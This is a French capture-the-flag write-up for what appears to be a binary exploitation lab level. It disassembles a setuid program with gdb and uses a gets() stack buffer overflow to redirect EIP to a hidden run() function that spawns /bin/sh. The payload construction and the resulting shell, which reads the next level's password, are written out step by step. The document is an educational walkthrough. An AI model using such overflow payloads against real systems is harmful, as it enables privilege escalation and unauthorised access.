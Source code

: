 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
  [...]
  ```
    - On a un binaire appartenant a level2 dans le home

- `./level1`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - rien

- `gdb level1`
  - `info function`
    ```
    [...]
      0x08048444  run
      0x08048480  main
    [...]
    ```
    - On trouve une fonction run en plus du main
  - `disas main`
    ```
      Dump of assembler code for function main:
    [...]
      0x08048486 <+6>:    sub    esp,0x50
    [...]
      0x08048490 <+16>:   call   0x8048340 <gets@plt>
    [...]
    ```
    - Le programme alloue 80 octets (0x50) pour stocker ses variables dans la stack, puis fait un appel a gets()
    - La fonction run n'est pas appelée
    
  - `disas run`
    ```
      Dump of assembler code for function run:
    [...]
      0x08048451 <+13>:	mov    eax,0x8048570
    [...]
      0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
      0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
      0x08048479 <+53>:	call   0x8048360 <system@plt>
    [...]
    ```
    - La fonction run met la valeur située à 0x8048570 dans eax
    - Call fwrite() avec la valeur dans eax (donc la valeur à 0x8048570):
      - `x/s 0x8048570`
        ```
          0x8048570:	 "Good... Wait what?\n"
        ```
    - Call system() avec la valeur située à 0x8048584:
      - `x/s 0x8048584`
        ```
          0x8048584:	 "/bin/sh"
        ```
## Exploit

- L'objectif va être de forcer l'appel de la fonction 'run' par 'main'.
- On va tirer avantage de la [vulnérabilité de gets à un buffer overflow](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351) pour écrire l'adresse de run dans l'EIP. 
- Comme vu plus haut, main alloue 80 octets dans la stack pour ses variables, on va commencer par là:
  - `python -c 'print "a" * 80' > /tmp/exploit`
  - `gdb level1`
    - `layout reg`
    - `run < /tmp/exploit`
      ```
        Starting program: /home/user/level1/level1 < /tmp/exploit

        Program received signal SIGSEGV, Segmentation fault.
        0x61616161 in ?? ()
      ```
    - Nice, on SegFault comme attendu et l'eip est réécrit avec des a:
      ```
        eip            0x61616161       0x61616161
      ```
- L' EIP étant codé sur 4 octets dans un système 32bits, on devrait pouvoir écrire l'adresse de run dans les 4 derniers octets, on vérifie avec un exploit de 76 "a" et 4 "b" :
  - `python -c 'print "a" * 76 + "b" * 4' > /tmp/exploit`
    ```
      eip            0x62626262       0x62626262 
    ```
      - Parfait, l'EIP est écrasé par les 4 derniers octets
- On a vu plus haut que l'adresse de 'run' est 0x08048444, on la passe en little endian avant de la load à la fin de notre exploit:
  - `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit`
  - `cat /tmp/exploit | ./level1`
    ```
      Good... Wait what?
      Segmentation fault (core dumped)
    ```
    - Ok, on lance bien la fonction run, mais le shell est close tout de suite, il faut [garder stdin ouvert avec cat](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process):
      > " The shell doesn't have any input - when it detects EOF it dies. " 
      - `cat /tmp/exploit - | ./level1`
        ```
          Good... Wait what?
          whoami
          level2
          cat /home/user/level2/.pass
          53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
        ```
